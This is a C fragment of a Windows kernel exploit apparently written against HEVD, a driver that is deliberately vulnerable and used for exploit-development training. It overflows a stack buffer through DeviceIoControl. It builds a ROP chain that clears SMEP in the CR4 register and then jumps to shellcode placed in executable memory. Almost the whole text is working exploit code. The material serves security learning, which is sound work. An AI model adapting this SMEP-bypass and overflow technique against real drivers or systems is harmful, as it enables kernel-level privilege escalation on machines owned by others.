 ```c

    printf("[+] Shellcode copied into executable memory\n");


    // Allocate a buffer of the correct size for the overflow.  Need to overflow 
    // the buffer, three callee saved registers, and enough space for the ROP chain.
    inBufferSize = BUFFER_SIZE + (3 * POINTER_SIZE) + CHAIN_SIZE;
    
    // Alocate the user buffer to be sent to the driver
    if (!(lpInBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, inBufferSize))) {
        printf("[-] Failed to allocate memory for buffer: %lu\n", GetLastError());
        return -1;
    }
    printf("[+] Created buffer of size: %zu\n", inBufferSize);
    

    // Set buffer to be full of 'A's
    RtlFillMemory(lpInBuffer, inBufferSize, 'A');


    // Create the ROP Chain
    if (!(kernelBase = GetKernelBaseAddress())) {
        printf("[-] Failed to calculate kernel base\n");
        return -1;
    }

    // Return address is at the buffer size plus the size of the three callee saved registers to 
    // overwrite plus the size of the return address.  Since the array is of size UINT64, we need
    // to divide by 8 to get the correct index into the array from the raw size in bytes, then 
    // subtract one to account for zero indexing.
    returnAddrIndex = ((BUFFER_SIZE + (3 * POINTER_SIZE) + POINTER_SIZE) / POINTER_SIZE) - 1;

    lpInBuffer[returnAddrIndex++] = POP_RCX + kernelBase;
    lpInBuffer[returnAddrIndex++] = CR4_SMEP_DISABLED;
    lpInBuffer[returnAddrIndex++] = MOV_CR4_RCX + kernelBase;
    lpInBuffer[returnAddrIndex++] = (UINT64)lpShellcode;


    printf("[+] Sending buffer with IOCTL: 0x%x\n", HEVD_IOCTL_BUFFER_OVERFLOW);
        
    BOOL result = DeviceIoControl(
        hDevice,
        HEVD_IOCTL_BUFFER_OVERFLOW,
        lpInBuffer,
        inBufferSize,
        NULL,
        0,
        &bytesReturned,
        NULL
    );
    if (!result) {
        printf("[-] Failed to send IOCTL to HEVD Driver: %lu\n", GetLastError());
        return -1;
    }

    printf("[+] IOCTL sent successfully to HEVD driver!\n");

    printf("[+] Freeing input buffer...\n");
    HeapFree(GetProcessHeap(), 0, lpInBuffer);

    return 0;
}
```